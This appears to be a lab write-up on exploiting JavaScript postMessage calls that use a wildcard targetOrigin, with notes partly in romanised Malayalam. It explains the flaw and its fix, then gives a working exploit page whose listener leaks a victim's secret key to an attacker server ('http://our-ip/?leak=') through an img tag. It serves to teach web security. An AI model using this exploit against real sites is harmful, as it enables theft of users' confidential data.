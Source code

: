 ## Introduction
-->This exercise covers how insecure calls to the JavaScript function postMessage() can be used to leak sensitive information
-->This course details the exploitation of an application using postMessage without setting a destination. Using this issue you will be able to get an administrator to leak confidential information to your server. This challenge is based on the following content: [postMessage issues](https://github.com/EdOverflow/bugbountywiki/wiki/postMessage-issues) and [The pitfalls of postMessage](https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/).

## JavaScript postMessage()
-->According to [Mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage):
- "The window.postMessage() method safely enables cross-origin communication between Window objects; e.g., between a page and a pop-up that it spawned, or between a page and an iframe embedded within it.
-->However, if the application relies on cookies and the opened page sends back sensitive information to the opening page without enforcing a targetOrigin, it's possible for a malicious page to get access to this sensitive information by getting users to visit a malicious page.
-->To prevent this issue, the backend should avoid using * as the second argument of postMessage (targetOrigin).

-->To exploit this issue, you will need to create a malicious HTML page that will open the vulnerable page and listen for events coming from the vulnerable page. You can use the code of the vulnerable application to see how to use postMessage(). This should allow you to open the vulnerable page with a listener that you will use to leak information back to your server. An easy way to do this is to create `<img tag pointing back to your malicious and embedding the leaked data as part of the URL.`

## Conclusion
-->This exercise showed you a way to exploit a page that uses postMessage without restriction on the targetOrigin. This allowed opening the page as the legitimate application would and use this to leak sensitive information back to your server.

# Video Explanation
## Video 1 - introduction
-->oru application thane rand windows open chythekum.so ee rand windowsum thamil communicate  chyendi verum.like sending some messages
-->ee message receive chyenda window oru eventListener fn vech kathirikum athupole message chyuna window postMessage() enna fn vech send chyum
-->postMessage fn ingan eaan veruka :
```js
<script>
....
postMessage(message,"http://example/")
....
</script>
```
-->adyathe argument message aanen kanikan ullathum. randmatheth target um aan
-->pakshe pandathe developers inganen target url kodukunathin pakkaram wildcard use chyum ie, `postMessage(sensitive_message,"*")` ingane star idumbol ella url ilekum ee sesitive message send chyum ok
-->so namal oru malicious website undaki ee post message il ninum veruna message receive chyuna reethiyil eventListener aaki vechal namk aa messages oke kitum ok

## The attack
- Create a malicious page that leaks informations received via events (using an <img tag for example)
- Make your malicious page open the vulnerable website using window.open in javascript
- Get the victim to visit your malicious website

## Video 2 - exploitation
-->ivide namal oru accoutn akit oru secret key add chyyka.enit athinte tottapurath decrytp enna button und ath click chythal aa secret key decrypt aayikolum
-->ini decrypt chythatin sehsham namal view-source adichal kanan patum oru eventhandler fn vahi aan ee decryption nadanethen ok
```js
<script>window.addEventListener("message", function(event){
	document.getElementById("value"+event.data.id).innerHTML event.data.value;}, false);
</script>
```
-->ini aa decrypt button inspect element adich nokiyal kanan patum :
```html
<button class="btn btn-danger" onclick='window.open("/key/0","ptlabdata0","height=200,width=150")'>Decrypt</button>
```
-->so namal namude lab url um pine ee /key/0 um cherth search chyuke ie->http://ptl-7a6d6bc7-85705a70.libcurl.so/key/0
-->ipol page il prathyekich onum kanikila but aa page view-source adichu nokiyal :
```html
<html>
<script>
  window.opener.postMessage({"id":0,"value":"hellojosu"}, '*');
  window.close();
</script>
</html>
```
-->see namude secret key aan ath. ath kidakunath postMessage enna js fn nte ullil aan. ivide main aayi nokendath namude secet key argument in shehsma veruna argument nok ie, `*`  means eth url ilum ee message send chyum.so namal ee logic aan exploit chyunath.so namal aadyam eduth eventListener code eduth namude editor il paste chyth modify chyth namal exploit chyanam :
```html
<html>

<script>window.addEventListener("message", function(event) { document.write("<img src='http://our-ip/?leak="+event.data.value+"'></img>"); }, false);

window.open("http://demo.libcurl.so/key/0");
</script>
</html>
```
-->ee script oru html file il aaki.namude terminalil webserver open aakit chythamahthi admin te key namuk kitikolum